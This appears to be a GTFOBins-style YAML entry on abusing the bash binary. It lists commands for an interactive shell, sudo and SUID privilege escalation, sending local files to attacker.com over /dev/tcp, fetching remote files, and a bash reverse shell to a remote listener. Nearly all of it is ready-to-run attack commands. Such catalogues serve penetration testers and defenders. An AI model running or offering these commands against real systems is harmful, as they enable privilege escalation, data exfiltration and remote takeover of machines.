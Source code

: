 ```yaml
---
functions:
  exec-interactive:
    - code: bash
  sudo-enabled:
    - code: sudo bash
  suid-enabled:
    - code: ./bash -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service to collect the file on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        cat $LFILE > /dev/tcp/$RHOST/$RPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        (echo -e "GET /$LFILE HTTP/0.9\r\n\r\n" 1>&3 & cat 0<&3) 3<>/dev/tcp/$RHOST/$RPORT | (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; do read i; done; cat) > $LFILE
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` to send the file from the other end.
      code: |-
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_get
        cat < /dev/tcp/$RHOST/$RPORT > $LFILE
  reverse-shell:
    - description: Run `nc -l -p 12345` to receive the shell on the other end.
      code: |
        RHOST=attacker.com
        RPORT=12345
        bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1
---
```

